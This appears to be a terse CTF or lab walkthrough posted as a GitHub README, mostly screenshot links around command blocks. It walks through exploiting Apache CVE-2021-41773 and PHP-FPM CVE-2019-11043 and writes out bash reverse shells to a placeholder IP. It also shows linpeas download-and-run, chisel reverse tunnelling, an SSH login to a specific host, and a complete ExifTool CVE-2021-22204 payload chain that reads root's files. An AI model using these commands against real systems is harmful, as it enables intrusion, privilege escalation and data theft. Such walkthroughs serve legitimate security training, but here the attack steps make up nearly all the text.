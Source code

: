 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)

```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
bash linpeas.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f187bf2-4316-4949-bdcf-8902ed0246b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72e4ebfc-5cc0-41a3-ac9c-35b6b2dda127)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f288dc0d-17c5-4572-b3a7-46a87cb607e8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a864a1d-7f09-4478-8b9f-5106f7410759)

CVE-2019-11043

https://github.com/moparisthebest/static-curl?tab=readme-ov-file

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18460f00-9053-4af5-9108-92c3abc2b7eb)
```
wget http://IP:1234/curl-amd64
chmod +x curl-amd64
./curl-amd64 http://127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6987c432-c67c-409f-8dc2-91cc9272f4d0)

https://github.com/jpillora/chisel/releases/tag/v1.9.1
```
./chisel server -p 1234 --reverse
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6d16e017-eb15-4f8f-bbe0-772e4a01f363)
```
wget http://IP:1234/chisel
chmod +x chisel
./chisel client IP_HACK:1234 R:80:127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d051de34-9e9b-452f-9ca3-201704d6cd73)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eef2862f-a604-4fc4-ae71-2b1a7ef9038f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a30c2f11-b58c-419d-899a-6fbbb16496ce)

https://github.com/theMiddleBlue/CVE-2019-11043

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eb553580-a068-406a-9aee-61909880d0fb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/09a96a75-dd12-425a-869c-0e9631f125c3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dd5232af-fc2f-470a-8e89-9721c9eb5282)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4767b80-c7ee-4345-9048-f9ad2b280c32)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e6a7965e-d292-4b55-923c-3cefe8915bc0)
```
echo 'sh -i >& /dev/tcp/IP/443 0>&1' > test.sh
bash test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0c1e30b4-bf30-40b6-bff1-f81a11a5eef1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6c10bb11-47fb-40b8-80a2-7704d73ce88e)
```
ssh edvard@62.173.140.174 -p 18922
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/973b2605-6268-4e25-b85e-4e484dd67c50)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0330dd20-09cb-4370-905b-c919cb2fc433)

https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/

```
printf 'P1 1 1 1' > input.pbm
cjb2 input.pbm mask.djvu
djvumake exploit.djvu Sjbz=mask.djvu
echo -e '(metadata (copyright "\\\n" . `ls -la /root` #"))' > input.txt
djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
exiftool '-GeoTiffAsciiParams<=exploit.djvu' file.png
perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < file.png > exploit.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/45f16833-1b7a-4a4c-a8cb-35e6978ffcd7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a874e43d-e9e9-4ed5-9f51-2747bfc2c53f)

```
printf 'P1 1 1 1' > input.pbm
cjb2 input.pbm mask.djvu
djvumake exploit.djvu Sjbz=mask.djvu
echo -e '(metadata (copyright "\\\n" . `cat /root/last_part` #"))' > input.txt
djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
exiftool '-GeoTiffAsciiParams<=exploit.djvu' file.png
perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < file.png > exploit.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f22dfee6-3939-486a-8fe6-7624e6eeecfe)



